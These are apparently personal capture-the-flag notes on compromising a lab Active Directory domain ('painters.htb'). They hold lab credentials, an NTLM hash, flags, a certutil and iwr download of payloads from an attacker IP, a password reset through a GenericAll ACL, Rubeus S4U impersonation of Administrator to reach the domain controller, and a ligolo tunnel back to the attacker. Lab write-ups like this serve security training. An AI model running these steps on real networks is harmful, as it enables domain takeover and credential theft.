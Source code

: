# Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 
- IP: `192.168.110.53 `

# Findings
### Credentials
`painters.htb\riley:P@ssw0rd`

### Flag
- `ZEPHYR{P3r5isT4nc3_1s_k3Y_4_M0v3men7}`
- `ZEPHYR{P41n73r_D0m41n_D0m1n4nc3}`
## External
### Enumeration
![](https://i.imgur.com/YZ8Edy7.png)

![](https://i.imgur.com/c27cdti.png)

![](https://i.imgur.com/nP2cpIr.png)
`SMB         192.168.110.53  445    PNT-SVRBPA       [+] .\james:8af1903d3c80d3552a84b6ba296db2ea (Pwn3d!)`
### Gaining Access
![](https://i.imgur.com/onc0HUP.png)
- The computer Has `genericall` over blake so, i can do this.
![](https://i.imgur.com/AH0pivZ.png)
```shell
certutil.exe -split -f -urlcache http://10.10.14.3/rexder.exe rexder.exe

PS C:\> $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

PS C:\> Set-DomainUserPassword -Identity blake -AccountPassword $SecPassword
```
## Internal
### Enumeration
![](https://i.imgur.com/KAA7IV0.png)
- I did Constrain Delegation
```shell
# I checked if my User can delegate
> Get-DomainUser -TrustedToAuth

# I requested for TGT
> .\rubeus.exe asktgt /user:blake /domain:painters.htb /password:'Password123!' /outfile:pc.tgt

# I requested for Impersonated TGS -> i got the msdsspn from the 1st command.
> .\rub.exe s4u /ticket:C:\pc.tgt /msdsspn:"CIFS/dc.painters.htb" /impersonateuser:Administrator /ptt

PS C:\> klist
klist

Current LogonId is 0:0x3e7

Cached Tickets: (1)

#0>	Client: Administrator @ PAINTERS.HTB
	Server: CIFS/dc.painters.htb @ PAINTERS.HTB
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
	Start Time: 6/27/2024 15:21:49 (local)
	End Time:   6/28/2024 1:15:09 (local)
	Renew Time: 7/4/2024 15:15:09 (local)
	Session Key Type: AES-128-CTS-HMAC-SHA1-96
	Cache Flags: 0
	Kdc Called:

# i Wanted to get Winrm to the DC so i made the cifs to http
> .\rub.exe s4u /ticket:C:\pc.tgt /msdsspn:"CIFS/dc.painters.htb" /impersonateuser:Administrator /altservice:http /ptt

PS C:\> Enter-PSSession -ComputerName dc.painters.htb
Enter-PSSession -ComputerName dc.painters.htb
[dc.painters.htb]: PS C:\Users\Administrator\Documents> whoami
whoami
painters\administrator

> After this i changed the password and connected with psexec

.\ligolo-agent.exe -connect 10.10.14.3:443 -ignore-cert

```

### Gaining Access


### Maintaining Access


# Random Notes
`powershell iwr -uri http://10.10.14.3/winpeas.exe -outfile win.exe`
```
Set-DomainObject -Identity blake -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}

Get-DomainSPNTicket blake | fl

Get-ObjectAcl -SamAccountName blake -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}  

t
$Cred = New-Object System.Management.Automation.PSCredential('PAINTERS\\', $SecPassword)
Set-DomainUserPassword -Identity blake -AccountPassword $SecPassword
```